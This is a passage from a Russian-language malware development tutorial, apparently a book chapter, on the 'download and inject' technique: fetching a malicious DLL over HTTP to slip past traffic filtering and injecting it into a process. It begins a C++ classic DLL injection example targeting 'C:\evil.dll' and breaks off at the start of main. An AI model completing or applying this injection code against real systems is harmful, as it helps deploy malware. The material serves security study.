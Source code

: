 \newpage
\subsection{32. Трюки разработки вредоносного ПО. Логика загрузки и инъекции. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![injection](./images/50/2022-04-13_18-17.png){width="80%"}    

Этот пост является результатом самостоятельного изучения интересного трюка, используемого в реальных вредоносных программах.    

### Загрузка и выполнение

*Download and execute* (*загрузка и выполнение*) или, в нашем случае, *download and inject* (*загрузка и инъекция*) - это интересный приём, предназначенный для загрузки полезной нагрузки или вредоносной DLL с URL-адреса, с упором на `http`, и её выполнения или инъекции. Преимущества подхода *download/execute* (или *download/inject*) заключаются в том, что он может использоваться в сетях, фильтрующих весь трафик, кроме HTTP. Он может даже работать через заранее настроенный прокси-сервер, если этот прокси не требует информации для аутентификации.    

### Практический пример

Для начала рассмотрим [классическую DLL-инъекцию](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html). В самом простом виде это будет выглядеть так:    

```cpp
/*
* Пример классической DLL-инъекции
* Автор: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // дескриптор процесса
```